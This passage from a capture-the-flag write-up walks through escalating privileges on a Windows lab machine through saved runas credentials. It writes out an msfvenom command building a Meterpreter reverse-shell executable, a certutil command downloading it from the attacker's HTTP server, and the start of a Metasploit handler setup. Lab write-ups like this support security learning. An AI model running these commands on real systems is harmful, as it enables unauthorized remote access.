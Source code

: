 ```

There are a few things interesting about the strings it outputted:

1. ```runas.exe``` is being executed which is in the ```System32``` file
2. ```\savecred```
3. and something called ```Access.exe``` is being executed

### Exploitation/Privilege Escalation - Getting Administrator Access

Doing some research, I found out more about ```\savecred``` [here](https://www.howtogeek.com/124087/how-to-create-a-shortcut-that-lets-a-standard-user-run-an-application-as-administrator/). This is what it says:

![image](https://user-images.githubusercontent.com/41026969/71539269-a2240180-2907-11ea-8c46-c1da0ff6eb02.png)

Basically ```runas /savecred```, is similar to using the ```sudo``` command to execute any commands that needed escalated priviledges. E

Remembering what I've done in previous challenges and doing some research about msfvenom, I learn that we can create a custom executable that will basically get us a reverse shell using metasploit and msfvenom. First, I do some research and end up on [this website](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/) and use the ```Windows Meterpreter Reverse TCP Shell```. 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```

Explanation of command above: ```msfvenom``` is the program name, ```-p``` is the payload, ```LHOST``` is the local host (our host machine, without the <>). ```LPORT``` is the port we'll be listening on (again without the <>, I chose 4444 for this challenge), ```-f``` is the format, in this case, ```.exe```. And the ```>``` means we'll be saving it as ```shell.exe```.

This will output the resulting executable in ```shell.exe```.

First, on the directory ```shell.exe``` is in, I do ```python -m SimpleHTTPServer```. This will create an HTTP server hosting the files. 

Second, I have to get the ```shell.exe``` file on the victim machine. I realize that I'm on a directory that I do not own (since we are user Security, this can be confirmed by doing ```powershell Dir | Get-Acl``` and it shows that it is owned by ```BUILTIN\Administrators ```.). So I switch to ```C:\Users\security\Desktop```. Then, doing ```powershell Get-Host``` shows that we're on powershell 2.0. Meaning Invoke-Webrequest isn't a thing (it's only in versions >= 3). Doing some research and attempting a powershell 2 workaround [found here](https://codehollow.com/2016/02/invoke-webrequests-via-powershell/) ended up not working for me. I eventually land on [this webpage](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl) and I discover that ```certutil``` can be used to download the file. So with the HTTP server running on my host machine I do:

```
certutil.exe -urlcache -split -f "http://10.10.14.27:8000/shell.exe" shell.exe
```

This will output the downloaded file as ```shell.exe```.

Third, I need to get the metasploit ready:

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST <local IP address>
LHOST => <local IP address>